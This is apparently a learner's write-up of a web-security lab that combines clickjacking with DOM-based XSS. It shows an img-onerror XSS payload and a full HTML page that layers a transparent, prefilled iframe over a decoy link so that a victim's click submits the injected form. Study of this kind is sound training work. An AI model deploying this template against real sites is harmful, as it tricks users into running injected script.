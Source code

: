 # Practitioner Lab 89 : Exploiting clickjacking vulnerability to trigger DOM-based XSS

---

This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the `print()` function.

The first thing I see when the page opens is the submit feedback functionality which is new. 

I used the payload 

```
lb555<img src=0 onerror=print()><!--
```

this resulted in a print popping up 

![Untitled](Practitioner%20Lab%2089%20Exploiting%20clickjacking%20vulner%209ce84cf0f89c478a90a9ba0919523c75/Untitled.png)

Now I will fill all the form parameters and have the user do click on it. 

```
<head>
	<style>
		#target_website {
			position:relative;
			width:1000px;
			height:1000px;
			opacity:0.1;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:1000px;
			height:1000px;
                        top:820px;
                        left: 100px;
			z-index:1;
			}
	</style>
</head>
<body>
	<div id="decoy_website">
	  <a href=""> click </a>
	</div>
	<iframe id="target_website" src="https://0a8b00af04a54f25830f51e300980086.web-security-academy.net/feedback?name=lb555%3Cimg+src%3D0+onerror%3Dprint%28%29%3E%3C%21--&email=yes%40yes&subject=yesy&message=yes">
	</iframe>
</body>
```

Using the following payload I was able to fill the whole form and then have the user submit it to run xss on their brower.